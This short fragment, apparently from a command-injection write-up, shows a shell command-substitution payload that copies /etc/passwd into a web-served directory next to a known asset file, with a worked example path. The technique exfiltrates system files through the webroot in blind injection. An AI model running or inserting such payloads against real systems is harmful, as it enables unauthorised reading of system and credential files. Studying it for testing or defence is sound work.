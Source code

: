 

`$( cat /etc/passwd > $(find / -name uniquefile.png 2>/dev/null).txt )`
So say we have the webroot: /var/www/you-cant-guess/  And a file located here: /var/www/you-cant-guess/assets/uniquefile.png  
Example:
cat /etc/passwd > /var/www/you-cant-guess/assets/uniquefile.png.txt